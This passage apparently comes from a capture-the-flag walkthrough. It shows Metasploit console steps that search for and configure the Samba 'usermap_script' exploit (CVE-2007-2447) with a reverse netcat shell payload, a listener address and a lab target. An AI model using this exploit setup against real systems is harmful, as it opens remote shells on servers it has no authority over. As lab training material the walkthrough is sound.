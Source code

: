 ```
msf6 > search cve-2007-2447

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
```

Again, we'll modify the options to point at the right target:

```

msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/usi
                                       ng-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.102.163  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3

RHOSTS => 10.10.10.3
```
